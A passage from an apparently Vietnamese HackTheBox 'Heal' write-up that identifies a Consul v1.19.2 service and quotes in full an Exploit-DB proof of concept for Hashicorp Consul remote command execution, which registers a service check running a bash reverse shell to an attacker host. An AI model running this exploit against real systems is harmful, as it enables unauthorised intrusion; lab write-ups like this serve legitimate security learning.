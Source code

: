 ![thirdteem](/assets/img/2025-01-07-HTB-Heal/13.webp)

Để ý ở góc dưới bên trái tôi có `Consul v1.19.2`. Thử tìm lỗ hổng của thằng này, tôi tìm thấy [Hashicorp Consul v1.0 - RCE](https://www.exploit-db.com/exploits/51117)

Phân tích một chút về PoC này

```txt
# Exploit Title: Hashicorp Consul v1.0 - Remote Command Execution (RCE)
# Date: 26/10/2022
# Exploit Author: GatoGamer1155, 0bfxgh0st
# Vendor Homepage: https://www.consul.io/
# Description: Exploit for gain reverse shell on Remote Command Execution via API
# References: https://www.consul.io/api/agent/service.html
# Tested on: Ubuntu Server
# Software Link: https://github.com/hashicorp/consul

import requests, sys

if len(sys.argv) < 6:
    print(f"\n[\033[1;31m-\033[1;37m] Usage: python3 {sys.argv[0]} <rhost> <rport> <lhost> <lport> <acl_token>\n")
    exit(1)

target = f"http://{sys.argv[1]}:{sys.argv[2]}/v1/agent/service/register"
headers = {"X-Consul-Token": f"{sys.argv[5]}"}
json = {"Address": "127.0.0.1", "check": {"Args": ["/bin/bash", "-c", f"bash -i >& /dev/tcp/{sys.argv[3]}/{sys.argv[4]} 0>&1"], "interval": "10s", "Timeout": "864000s"}, "ID": "gato", "Name": "gato", "Port": 80}

try:
    requests.put(target, headers=headers, json=json)
    print("\n[\033[1;32m+\033[1;37m] Request sent successfully, check your listener\n")
except:
    print("\n[\033[1;31m-\033[1;37m] Something went wrong, check the connection and try again\n")
```
